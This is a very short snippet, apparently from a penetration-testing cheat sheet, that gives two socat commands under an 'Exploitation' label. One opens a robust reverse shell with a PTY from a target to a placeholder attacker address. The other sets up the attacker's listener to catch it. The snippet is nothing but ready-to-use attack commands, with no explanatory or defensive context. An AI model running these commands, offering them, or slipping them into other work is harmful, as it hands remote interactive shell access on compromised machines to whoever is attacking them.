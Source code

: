 # [Exploitation] Reverse shell (PTY, robust) --socat
socat TCP:<attacker_ip>:<port> EXEC:/bin/sh,pty,stderr,setsid,sigint,sane

# [Exploitation] TCP listener with PTY (better TTY) --socat
socat -d -d TCP-LISTEN:<port>,reuseaddr,fork FILE:`tty`,raw,echo=0
